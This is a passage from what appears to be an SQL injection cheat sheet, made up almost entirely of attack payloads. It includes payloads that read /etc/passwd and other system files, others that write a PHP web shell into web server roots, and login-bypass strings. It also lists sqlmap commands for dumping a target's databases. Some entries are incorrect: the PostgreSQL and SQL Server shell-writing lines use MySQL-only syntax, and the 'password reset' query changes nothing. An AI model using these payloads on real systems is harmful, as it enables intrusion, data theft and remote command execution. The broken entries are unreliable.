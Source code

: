 ### File Operations

#### Read Files
```sql
# MySQL
' UNION SELECT LOAD_FILE('/etc/passwd')--

# PostgreSQL
' UNION SELECT pg_read_file('/etc/passwd')--

# SQL Server
' UNION SELECT * FROM OPENROWSET(BULK 'C:\windows\system32\drivers\etc\hosts', SINGLE_BLOB)--
```

#### Write Files
```sql
# MySQL
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php'--

# PostgreSQL
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php'--

# SQL Server
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'--
```

## Authentication Bypass

### Login Bypass
```sql
# Basic bypass
' OR '1'='1
' OR 1=1--
admin'--

# Advanced bypass
' OR '1'='1' LIMIT 1--
' UNION SELECT 'admin','password' FROM users--
```

### Password Reset
```sql
# Reset admin password
' UNION SELECT 'admin','5f4dcc3b5aa765d61d8327deb882cf99' FROM users WHERE username='admin'--
```

## Tools Integration

### SQLMap Commands
```bash
# Basic scan
sqlmap -u "http://target.com/page.php?id=1"

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" --tables
sqlmap -u "http://target.com/page.php?id=1" --columns

# Data extraction
sqlmap -u "http://target.com/page.php?id=1" --dump
sqlmap -u "http://target.com/page.php?id=1" --dump-all

# Shell upload
```